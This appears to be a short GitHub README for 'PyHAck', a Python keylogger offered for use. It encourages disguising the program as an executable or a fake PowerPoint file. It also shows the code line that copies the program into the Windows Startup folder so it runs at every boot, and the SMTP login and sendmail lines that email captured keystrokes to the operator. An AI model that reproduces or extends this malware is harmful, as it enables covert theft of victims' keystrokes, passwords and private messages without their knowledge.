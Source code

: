 # PyHAck
KEYLOGGER :
Keylogger is, obviously a keylogger. feel free to rename it, make a windows executable, false pptx file or whatever yoou want.
Just modify the  shutil.copyfile("{}/keylogger.exe".format(os.getcwd()),"C:\\Users\\{}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\keylogger.exe".format(getpass.getuser()))
line by removing keyllogger.exe to the file name. this line will copy the script itself on the startup file of windows and make it start at each startup of the computer.
please also modify these line with your own email address.

smtp.login("exemple@gmail.com","exemple_password")
                smtp.sendmail("exemple@gmail.com","exemple@gmail.com",msg.as_string())
